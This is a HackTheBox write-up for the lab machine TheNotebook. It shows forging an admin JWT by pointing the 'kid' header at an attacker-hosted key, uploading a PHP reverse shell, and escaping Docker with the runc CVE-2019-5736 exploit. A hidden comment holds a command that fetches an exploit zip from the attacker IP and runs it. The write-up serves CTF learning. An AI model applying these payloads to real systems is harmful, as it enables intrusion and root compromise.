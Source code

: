 ```yaml
---
title: Hackthebox - TheNotebook
date: 2021-05-24 00:00:00 +0530
categories: [hackthebox, linux]
tags: [jwt bypass, docker runc, cve-2019-5736]     # TAG names should always be lowercase
image: /assets/img/posts/theNotebook/theNotebook_banner.png
---
```



![](/assets/img/posts/theNotebook/theNotebook_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.230 theNotebook.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp open  http    nginx/1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**web server**

![](/assets/img/posts/theNotebook/web-fpage.png)

Registering with new account and notice cookie.

![](/assets/img/posts/theNotebook/big-cookie.png)

KID manipulationJSON Web Token) authentication cookie

![](/assets/img/posts/theNotebook/jwt-auth.png)

# Foothold

## JWT bypass

* **Useful tool:** 
  * [jwt_tool](https://github.com/ticarpi/jwt_tool)
  * [jwt-hack](https://github.com/hahwul/jwt-hack)

* **Resources**
  * [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/JSON%20Web%20Token/README.md)
* Online JWT Encoder – Decoder [jsonwebtoken.io](https://www.jsonwebtoken.io/)
* Online jwt generator [jwtbuilder.jamiekurtz.com](https://jwt.io/)

JWT authentication cookie is divided into three parts: header, payload, signature. These values divided by `.`

**JSON Web Token:** `Base64(Header).Base64(Data).Base64(Signature)`

* **Header:** contain information about the JWT configuration.
* **Data:** used to store some users’ data.
* **Signature:** used to prevent data from being modified. The signature uses RS256 (RSA asymmetric encryption and private key signature) and HS256 (HMAC SHA256 symmetric encryption) algorithm.

There are multiple ways to bypass [Vickie Li](https://twitter.com/vickieli7) show in her [medium blog](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)

On this box we are doing **"KID manipulation"** via **"SSRF"**

**KID:** it allows to specify the key to be used for verifying the token.

**Creating tampered jwt**

**Header**
```json
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.15.71/privKey.key"
}
```

**Data**
```json
{
  "username": "test12",
  "email": "test12@test.com",
  "admin_cap": true
}
```

![](/assets/img/posts/theNotebook/jwt-created.png)

After creating jwt save its private key in a file and start web server.
<!--
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNS43MS9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InRlc3QxMiIsImVtYWlsIjoidGVzdDEyQHRlc3QuY29tIiwiYWRtaW5fY2FwIjp0cnVlfQ.h2XetEdg5NzVsL7p1QvOBxsppWmjMQBzTYP_Nctdv6GPLuJnkXgSv5gcVicyzgWD_dxmbjVG5D7ilitMxLZ0KfmRROfcZ52hKkJEaYPAi6dEfSPup59bN-5Z4A3DdTycyvJRYgG8c7s_GD5gZ9ZkNDyPurD3AnxiwQWUfJvpXE8g169a4isuFsyoGv82RHq4ZQJuWgHZsS-5ZhzenrwVIjrC_6s26bCJmJwwC1CjJkGCARlAnZQIatrkhLoXYrhTy4ELlGkZOUxyCRCsueX1CtAcA2bPDbo2gyiPDJHacgu45rPH74UUxDelQZuCDL1jrFjUZdNuaZs9T4uI3H8etA
-->

now changing the `auth` value in cookie parameter and replace with new generated jwt and forward the request. If everythings gose right we get admin panel

![](/assets/img/posts/theNotebook/get-admin.png)

then using hackbar to load tampered cookie

![](/assets/img/posts/theNotebook/hackbar-load.png)

admin panel have file upload option which allowed any file to upload **reverse shell** too.

![](/assets/img/posts/theNotebook/file-upload.png)

upload php reverse shell get file name execute the file and get shell on the box.

![](/assets/img/posts/theNotebook/web-shell.png)

# Privesc

found home directory backup in the `/var/backups` folder which contains noah user home folder.

![](/assets/img/posts/theNotebook/back-rsa.png)

## Breaking Docker via runC

User have sudo right to run `docker exec` as any user on the box with NOPASSWD.
```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

**Docker version 18.06.0-ce, build 0ffa825**

searchsploit found exploit
```bash
❯ searchsploit Docker 18.06
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
runc < 1.0-rc6 (Docker < 18.09.2) - Container Breakout (1)                          | linux/local/46359.md
runc < 1.0-rc6 (Docker < 18.09.2) - Container Breakout (2)                          | linux/local/46369.md
------------------------------------------------------------------------------------ ---------------------------------
```

Also found the runc bianry
```bash
noah@thenotebook:~$ ls -la /usr/sbin/runc
-rwxr-xr-x 1 root root 7841912 Feb 18 13:45 /usr/sbin/runc
```

**runc version 1.0.0~rc6+dfsg1**

* **[CVE-2019-5736](https://www.cvedetails.com/cve/CVE-2019-5736/):** runc through 1.0-rc6, as used in Docker before 18.09.2 and other products, allows attackers to overwrite the host runc binary (and consequently obtain host root access) by leveraging the ability to execute a command as root within one of these types of containers: (1) a new container with an attacker-controlled image, or (2) an existing container, to which the attacker previously had write access, that can be attached with docker exec. This occurs because of file-descriptor mishandling, related to /proc/self/exe.

* [PoC by Frichetten@github](https://github.com/Frichetten/CVE-2019-5736-PoC)
* [Exploit](https://www.exploit-db.com/exploits/46369)

First get the inside container using sudo command
```bash
sudo -u root /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

Upload [exploit zip](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/46369.zip) inside the container

inside zip, modified `bad_init.sh` with command that you want to execute on the host in `BAD_BINARY` variable.

![](/assets/img/posts/theNotebook/edit-bad-init.png)

run make script
<!--mkdir /tmp/exp && cd /tmp/exp && wget 10.10.15.71:8000/CVE-2019-5736.zip && unzip CVE-2019-5736.zip && ./make.sh-->

![](/assets/img/posts/theNotebook/run-make.png)

Now exit the container and execute `/bin/bash` in the same container 2 times.
```bash
sudo -u root /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

![](/assets/img/posts/theNotebook/run-again.png)